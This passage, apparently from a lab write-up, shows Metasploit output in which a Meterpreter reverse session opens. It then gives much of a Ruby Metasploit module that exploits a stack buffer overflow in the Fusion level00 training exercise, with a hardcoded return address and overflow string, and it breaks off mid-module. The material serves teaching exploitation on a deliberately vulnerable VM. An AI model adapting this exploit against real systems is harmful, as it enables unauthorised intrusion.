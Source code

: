 [*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1241088 bytes) to 192.168.79.132
[*] Meterpreter session 1 opened (192.168.79.129:4444 -> 192.168.79.132:56754) at 2015-04-09 00:56:53 -0700

{% endhighlight %}

Finally a meterpreter shell! The puzzle is solved. Below is the full module:

{% highlight Ruby %}
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Fusion level00 remote stack buffer overflow',
      'Description'    => %q{
                           This module exploits a stack buffer overflow in level00 of the
                           fusion exploit exercises.
                           },
      'Author'         => [ 'Philip OKeefe' ],
      'Version'        => '1',
      'DefaultOptions' =>
              {
                      'EXITFUNC' => 'process',
              },
      'Payload'        =>
              {
                      'Space'    => 788,
                      'BadChars' => "\x00",
                      'StackAdjustment' => -4000,
              },
      'Platform'       => 'linux',

      'Targets'        =>
              [
                      ['Linux', {} ],
              ],
      'DefaultTarget' => 0,
      'Privileged'     => false
      ))

      register_options(
      [
              Opt::RHOST("192.168.79.132"),
              Opt::RPORT(20000),
      ], self.class)
   end

   def exploit
    connect
    # Recieve the servers debug message
    data = sock.recv(1024)

    # Overwrite eip with the address of our payload
    junk = "A" * 127
    ret = [0xbffff9da].pack('V')
    trailing_junk = "B" * ( 200 - junk.length - ret.length )
    filename = "/home/fusion/" + junk + ret + trailing_junk

    # Create the exploit string